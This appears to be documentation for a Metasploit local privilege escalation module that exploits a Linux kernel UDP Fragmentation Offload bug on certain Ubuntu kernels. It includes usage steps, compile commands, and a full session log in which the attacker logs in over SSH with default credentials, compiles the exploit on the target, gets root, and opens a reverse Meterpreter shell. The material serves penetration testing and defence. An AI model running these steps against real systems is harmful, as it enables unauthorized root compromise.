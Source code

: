 ## Vulnerable Application

This module attempts to gain root privileges on Linux systems by abusing UDP Fragmentation Offload (UFO).
  
The bug was initially introduced in October 2005 and patched in September 2017, potentially affecting a large
number of kernels; however this exploit targets only systems using Ubuntu (Trusty / Xenial) kernels 
4.4.0-21 <= 4.4.0-89 (Trusty), and 4.4.0-81 <= 4.8.0-58 (Xenial), including Linux distros based on Ubuntu
such as Linux Mint.

### Disabling SMAP

[Original Instructions](https://github.com/rapid7/metasploit-framework/pull/9884#issuecomment-389607805)

To disable `SMAP` on a system, edit `/etc/default/grub` and add `nosmap` to the `GRUB_CMDLINE_LINUX_DEFAULT` line.
Next, `sudo update-grub`, and reboot.

To verify SMAP has been disabled, `grep smap /proc/cpuinfo` and nothing should be returned.

## Verification Steps

  1. Start msfconsole
  2. Get a shell on a vulnerable box
  3. Do: ```use exploit/linux/local/ufo_privilege_escalation```
  4. Do: ```set session [#]```
  5. Do: ```run```
  6. You should get a root shell.

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to Auto

## Compiled Executables

The module makes use of a pre-compiled exploit executable to be
used when `gcc` is not available on the target host for live compiling,
or `COMPILE` is set to `False`.

The executable was cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar).

```bash
./x86_64-linux-musl-gcc -o exploit.out -pie -static exploit.c
```

## Scenarios

### Ubuntu 14.04.5 4.4.0-31-generic x64 Desktop

#### Initial Access

```
resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
resource (ubuntu.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (ubuntu.rb)> set username ubuntu
username => ubuntu
resource (ubuntu.rb)> set password ubuntu
password => ubuntu
resource (ubuntu.rb)> exploit
[+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare) Linux ubuntu-desktop-14 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:07:32 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (1.1.1.1:45819 -> 2.2.2.2:22) at 2018-04-03 20:58:32 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

```
msf auxiliary(scanner/ssh/ssh_login) > use exploit/linux/local/ufo_privilege_escalation 
msf exploit(linux/local/ufo_privilege_escalation) > set verbose true
verbose => true
msf exploit(linux/local/ufo_privilege_escalation) > set session 1
session => 1
msf exploit(linux/local/ufo_privilege_escalation) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf exploit(linux/local/ufo_privilege_escalation) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[+] Linux kernel version 4.4.0-31-generic is vulnerable
[*] Checking if SMAP is enabled ...
[+] SMAP is not enabled
[+] System architecture x86_64 is supported
[+] Unprivileged user namespaces are permitted
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.4UnI1EFL.c' (28356 bytes) ...
[*] Max line length is 65537
[*] Writing 28356 bytes in 2 chunks of 57414 bytes (octal-encoded), using printf
[*] Next chunk is 43454 bytes
[*] Writing '/tmp/.S6G2g9rnUj' (207 bytes) ...
[*] Max line length is 65537
[*] Writing 207 bytes in 1 chunks of 629 bytes (octal-encoded), using printf
[*] Launching exploit ...
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (857352 bytes) to 2.2.2.2
[*] [.] starting
[*] [.] checking kernel version
[*] [.] kernel version '4.4.0-31-generic' detected
[*] [~] done, version looks good
[*] [.] checking SMEP and SMAP
[*] [~] done, looks good
[*] [.] setting up namespace sandbox
[*] [~] done, namespace sandbox set up
[*] [.] KASLR bypass enabled, getting kernel addr
[*] [.] trying /proc/kallsyms...
[*] [.] trying /boot/System.map-4.4.0-31-generic...
[*] [-] open/read(/boot/System.map-4.4.0-31-generic)
[*] [.] trying syslog...
[*] [~] done, kernel addr:   ffffffff81000000
[*] [.] commit_creds:        ffffffff8109d760
[*] [.] prepare_kernel_cred: ffffffff8109da40
[*] [.] SMEP bypass enabled, mmapping fake stack
[*] [~] done, fake stack mmapped
[*] [.] executing payload ffffffff8104516a
[*] [~] done, should be root now
[*] [.] checking if we got root
[*] [+] got r00t ^_^
[*] Cleaning up /tmp/.S6G2g9rnUj and /tmp/.4UnI1EFL ...
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:60474) at 2018-07-21 13:35:49 -0400

meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 14.04 (Linux 4.4.0-31-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```
